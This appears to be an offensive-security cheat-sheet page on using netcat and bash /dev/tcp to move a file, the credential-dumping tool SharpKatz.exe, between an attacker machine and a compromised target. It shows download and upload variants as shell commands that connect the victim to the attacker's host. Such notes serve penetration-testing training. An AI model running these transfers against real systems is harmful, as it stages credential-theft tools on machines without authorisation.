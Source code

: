 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# NetCat  Transfer

## Download to Target

**Start NetCat on the compromised machine:** Start NetCat (**nc**) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the **stdout** using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

```shell
victim@target[~]$ nc -l -p 8000 > SharpKatz.exe
```

**Send the file to the compromised machine:**

```shell
clue@machine[/]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

## Upload to Target

This method is useful in scenarios where there's a **firewall blocking inbound connections**.

**Start the NetCat listener locally:**

```shell
clue@machine[/]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Connect the target to the attacker machine and receive the file:**

```shell
victim@target[~]$ nc 192.168.49.128 443 > SharpKatz.exe
```

## Connect to NetCat via Bash

If **Netcat** or **Ncat** is not available on the compromised machine, **Bash** supports read/write operations on a pseudo-device file `/dev/TCP/`.

Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.

```shell
victim@target[~]$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
